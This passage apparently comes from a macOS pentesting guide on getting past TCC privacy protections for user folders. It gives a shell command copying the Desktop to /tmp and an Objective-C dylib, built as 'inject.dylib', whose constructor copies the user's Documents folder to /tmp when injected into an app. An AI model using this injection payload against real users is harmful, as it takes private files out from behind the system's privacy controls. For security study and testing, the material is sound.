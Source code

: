 {% tab title="Shell" %}
Copy `$HOME/Desktop` to `/tmp/desktop`.

```bash
cp -r "$HOME/Desktop" "/tmp/desktop"
```
{% endtab %}
{% endtabs %}

### Documents

* **Entitlement**: None
* **TCC**: `kTCCServiceSystemPolicyDocumentsFolder`

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Documents` to `/tmp/documents`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Documents"];
    NSString *tmpPhotosPath = @"/tmp/documents";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/`Documents to `/tmp/documents`.
